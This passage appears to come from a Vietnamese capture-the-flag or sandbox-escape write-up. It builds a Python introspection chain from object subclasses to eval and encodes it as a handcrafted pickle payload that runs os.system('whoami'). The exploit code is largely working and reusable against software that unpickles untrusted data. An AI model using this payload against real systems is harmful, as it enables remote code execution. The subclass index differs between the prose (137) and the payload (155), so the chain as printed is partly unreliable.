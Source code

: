 Như vậy là ta đã có thể truy cập đến class os._wrap_close chỉ với việc thực thi các method khác nhau một cách vi diệu.

```python
myinit = myatrr(myoswrapclose, '__init__')               #[1]
myglobals = myatrr(myinit, '__globals__')
mybuiltinsdict = myatrr(myglobals, '__getitem__')        #[2]
mybuiltins = mybuiltinsdict('__builtins__')
myevaldict = myatrr(mybuiltins, '__getitem__')           #[3]
myeval = myevaldict('eval')
mycommand = myeval('__import__("os").system("whoami")')

print(mycommand) #nguyenlong05
```

Phân tích phần tiếp theo để đi đến eval:

1. Ta tiếp tục chain bằng method `object.__getattribute__` định nghĩa ở trên, lần lượt đi tới `object.__subclasses__()[137].__init__.__globals__`

2. Lưu ý rằng, lúc này `__globals__` chứa các dict cho nên khi ta trích xuất builtins lại một lần nữa sử dụng `__getitem__`. Ở đây getitem trả về value trong dict cho nên ta truyền giá trị là key vào method getattribute. Cuối cùng ta nhận được `__globals__['__builtins__']`

3. Lặp lại một lần nữa ta nhận được `__globals__['__builtins__']['eval']`, chính là method eval. Cuối cùng thực thi hàm này với tham số là command cần được thực thi, xác nhận khả năng bypass của payload.

Thực hiện viết lại payload dưới dạng bytecodes của pickles như sau:

```python
raw = (
    b"\x80\x04"
    # mysubclasses
    b"c__main__\n__class__.__base__.__subclasses__\n"
    b"(" b"t" b"R"                # () → __subclasses__() -> list
    b"p0\n"                       # memo[0] = subclasseslist
    # myattr
    b"c__main__\n__class__.__base__.__getattribute__\n"
    b"p1\n"                       # memo[1] = object.__getattribute__
    # mygetitem
    b"(" b"g0\n" b"V__getitem__\n" b"t" b"R"
    # myoswrapclose = mygetitem(155)
    b"(" b"I155\n" b"t" b"R"
    b"p2\n"                       # memo[2] = myoswrapclose
    # myinit
    b"g1\n"                       # push __getattribute__
    b"(" b"g2\n" b"V__init__\n" b"t" b"R"
    b"p3\n"                       # memo[3] = myinit
    # myglobals
    b"g1\n" b"(" b"g3\n" b"V__globals__\n" b"t" b"R"
    b"p4\n"                       # memo[4] = myglobals (dict)
    # mybuiltinsdict
    b"g1\n" b"(" b"g4\n" b"V__getitem__\n" b"t" b"R"
    b"p5\n"                       # memo[5] = mybuiltinsdict (bound)
    # mybuiltins
    b"(" b"V__builtins__\n" b"t" b"R"
    b"p6\n"                       # memo[6] = __builtins__ (dict/module)
    # myevaldict
    b"g1\n" b"(" b"g6\n" b"V__getitem__\n" b"t" b"R"
    b"p7\n"                       # memo[7] = myevaldict
    # myeval
    b"(" b"Veval\n" b"t" b"R"
    b"p8\n"                       # memo[8] = eval
    # mycommand
    b"(" b"V__import__(\"os\").system(\"whoami\")\n" b"t" b"R"
    b"."
```